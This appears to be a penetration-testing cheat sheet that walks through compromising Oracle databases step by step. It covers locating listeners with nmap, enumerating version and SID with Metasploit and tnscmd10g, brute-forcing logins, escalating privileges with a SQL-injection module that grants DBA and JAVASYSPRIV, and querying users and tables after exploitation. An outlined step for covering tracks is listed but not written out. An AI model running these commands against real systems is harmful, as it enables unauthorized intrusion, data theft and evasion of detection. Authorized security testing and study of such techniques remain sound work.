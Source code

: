 # Oracle


1. Locate a system running Oracle.
2. Determine Oracle version.
3. Determine Oracle SID.
4. Guess/Bruteforce USERNAME/PASS.
5. Privilege escalation via SQL injection.
6. Manipulate data/post exploitation.
7. Cover tracks.
------------------------------------------------------------------------------------------------------

### 1. Locate a system running Oracle.

```
nmap -Pn -n -T4 --open -p1521 <target IP>
```
### 2. Determine Oracle version.

   Example 1
```
     msf > use auxiliary/scanner/oracle/tnslsnr_version
     db_notes
```

   Example 2
```
     tnscmd10g version -h <target IP>
     tnscmd10g status -h <target IP>
     Look for the version, LOGFILE, TRACING and PORT.
```

### 3. Determine Oracle SID.

   Example 1
```
     msf > use auxiliary/scanner/oracle/sid_enum
     msf > use auxiliary/admin/oracle/sid_brute
```

   Example 2
   
```
    sidguess -i <target IP> -d /usr/share/metasploit-framework/data/wordlists/sid.txt
```
   
   Example 3
   
```
       http://<target IP>:8080/oradb/PUBLIC/GLOBAL_NAME
```


### 4. Guess/Bruteforce USERNAME/PASS.

   Example 1
   ```
     msf > use auxiliary/admin/oracle/login_brute
     set SID <sid>
   ```
   Example 2
   ```
       sqlplus <username>/<password>@<target IP>:<port>/<SID>
```

### 5.Privilege escalation via SQL injection.
 ```
   msf > use auxiliary/admin/oracle/sql
   set DBUSER <user>
   set DBPASS <password>
   set SID <sid>
   set SQL select * from user_role_privs
```
```
   msf > use auxiliary/admin/oracle/pushin/lt_findricset_cursor
   set DBUSER <user>
   set DBPASS <password>
   set SID <sid>
   set SQL GRANT DBA TO <user>
   set SQL GRANT JAVASYSPRIV TO <user>
```
### 6. Manipulate data/post exploitation.
```
   select * from v$version;                  -- Oracle version
   select * from dba_registry_history;       -- Oracle patch level
   select * from all_users;                  -- usernames
   select owner,table_name from all_tables;  -- tables
   select * from session_roles;              -- session roles
   desc utl_http                             -- describes database objects
```

http://www.youtube.com/watch?v=SVvAvmjT7V4#t=1535
